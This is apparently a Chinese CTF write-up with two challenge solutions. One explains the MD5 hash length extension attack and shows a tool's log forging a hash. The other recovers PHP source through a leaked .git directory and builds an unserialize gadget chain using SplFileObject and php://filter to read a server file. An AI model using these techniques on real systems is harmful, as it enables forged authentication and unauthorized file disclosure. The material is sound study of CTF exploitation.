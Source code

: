 # CCF智能汽车大赛

## easylogin(Hash长度拓展攻击)

​	这道题的考点是哈希长度拓展攻击，由于无法找到原题就随便找到题代替了。

​	对于MD5算法来说，我们需要将原数据进行分块处理，以512位个二进制数据为一块。”最后“一块的处理分为以下几种情况：

- 明文数据的二进制数据长度<=448，填充padding(无意义占位)数据使其长度为448，再添加原始明文数据的二进制长度信息（64位）使其长度为512位即可。
- 448<明文数据的二进制数据长度<=512，填充padding数据至下一块的448位，而后再添加原始明文数据的二进制长度信息（64位）使其长度为512位即可。

![第一种情况](./assets/1095571-20200907022025084-1991913322.png)

![第二种情况](./assets/1095571-20200907022036709-1146554163.png)

注意：每块数据的长度均为**512**位二进制，图中的数据我没有全都用二进制来表示，将明文数据分块之后就可以与向量进行运算了。

对于padding数据（长度不定）来说：首位二进制位1，其余位为0.

对于长度信息位（长度8Byte=64bit）来说，从低位向高位数，如上图的长度信息：`f0 03 00 00 00 00 00 00`即代表0x03f0，其对应的十进制为1008，即为64+62=126个字符的二进制位数(一个字符1Byte即8bit)。

对于MD5算法来说，有一串初始向量如下：

```
A=0x67452301
B=0xefcdab89
C=0x98badcfe
D=0x10325476
```

这串初始向量的值是固定的，作为与第一块数据运算的原始向量。

当这串向量与第一块数据块运算之后，得到了一串新的向量值，这串新的向量值接着与第二块数据块参加运算，直到最后一块数据块。

如下图所示：

![向量运算](./assets/1095571-20200907022115124-747740824.png)

而最后的MD5值就是这最后的向量串经过如下转换的结果。

如向量串：

```
A=0xab45bc01
B=0x6a64bb53
C=0x23ba8afe
D=0x46847a62
```

先两两为一组进行组合，得到如下数据：

```
ab 45 bc 01
6a 64 bb 53
23 ba 8a fe
46 84 7a 62
```

再进行高低位互换，得到如下数据：

```
01 bc 45 ab
53 bb 64 6a
fe 8a ba 23
62 7a 84 46
```

最终拼接得到MD5值：`01bc45ab53bb646afe8aba23627a8446`。

​	可以利用的工具有**hashpump**(需要自己编译)，或者**hash-ext-attack**(基于python)。

```shell
(ctf) ➜  hash-ext-attack git:(master) python hash_ext_attack.py
2025-08-13 11:27:44.735 | DEBUG    | common.md5_manual:__init__:17 - init......
请输入已知明文：test
请输入已知hash： 2df51a84abc64a28740d6d2ae8cd7b16
请输入扩展字符: abc
请输入密钥长度：6
2025-08-13 11:27:55.272 | INFO     | common.HashExtAttack:run:65 - 已知明文：b'test'
2025-08-13 11:27:55.272 | INFO     | common.HashExtAttack:run:66 - 已知hash：b'2df51a84abc64a28740d6d2ae8cd7b16'
2025-08-13 11:27:55.272 | INFO     | common.HashExtAttack:run:68 - 新明文：b'test\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x00\x00\x00\x00\x00\x00\x00abc'
2025-08-13 11:27:55.273 | INFO     | common.HashExtAttack:run:69 - 新明文(url编码)：test%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00P%00%00%00%00%00%00%00abc
2025-08-13 11:27:55.273 | INFO     | common.HashExtAttack:run:71 - 新hash:bac6cb2d585d2de3f5f48f2759d2e5a7

```

​	这里理解还是存在不足，或许学习了密码学相关知识后会有更深入的了解。

## serp

 这题涉及git泄漏，我们通过/.git/获取到题目源码

```php+HTML
<?php 
include("./posts.php");
$posts = [new Post("test", "test")];
$posts = unserialize(strval($_COOKIE["posts"]));

if($_POST["post"]){
	$post = (new Maker("Post", $_POST["post"]))->getInstance();
	$posts[] = $post;
	setcookie("posts", serialize($posts));	
}
?>
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>User Center</title>
    <link rel="stylesheet" href="bulma.min.css">
</head>

<body>
    <nav class="navbar">
        <div class="container">
	    <div class="navbar-brand">
                <span class="navbar-item is-white">User Center</span>
            </div>
        </div>
    </nav>
    <section class="section">
        <div class="container">
            <div class="column is-8 is-offset-2 ">
                <div class="box">
                    <form method="POST" action="/?add">
                        <div class="field"><input class="input" name="post[]"/></div>
                        <div class="field"><textarea class="textarea" name="post[]"/></textarea></div>
			<div class="field"><button class="button is-link" type="submit">Send</button></div>
                    </form>
		    <hr>
		    <?php foreach($posts as $post): ?>
		    <div class="field">
		        <h3><b><?= $post->title; ?></b></h3>
		        <p><?= $post->content; ?></p>
		    </div>
		    <?php endforeach; ?>
                </div>
            	<div>
            		<h5 class="has-text-light">build by git</h5>
            		<p class="is-hidden">
            		<?php foreach(scandir(".") as $d): ?>
            		<?= strval($d); ?>
            		<?php endforeach; ?>
            		<p>
            	</div>
            </div>
        </div>
    </section>

</body>

</html>
```

index.html

```php
<?php
class Post {
	public $title;
	public $content;
	public function __construct($title, $content) {
		$this->title = $title;
		$this->content = $content;
	}
	public function __toString() {
		return $this->title . "/" . $this->content;
	}
}
class Maker {
	public $model = "Post";
	public $args = ["Title", "Contents"];
	protected $obj = null;
	public function __construct($model, $args){
		$this->model = $model;
		$this->args = $args;
	}
	public function getInstance() {
		if($this->obj == null) {
			$this->obj = new $this->model(...$this->args);
		}
		return $this->obj;
	}
	public function __toString() {
		return "object(". $this->model ."){" . strval($this->getInstance()) . "}";
	}
	public function __destruct() {
		$this->obj = null;
	}
}
```

posts.php

​	开始搓链子

```
Maker(__toString())->Maker(getInstance())->Post(__construct())
```

```php
$p = [
    0=>"test",
    1=>new Maker("SplFileObject",["php://filter/convert.base64-encode/resource=t.py"])
];
$post = (new Maker("Post", $p))->getInstance();
$posts[] = $post;
$a=serialize($posts);
echo urlencode($a)."\n";    
echo unserialize($a)[0]->content;   
```

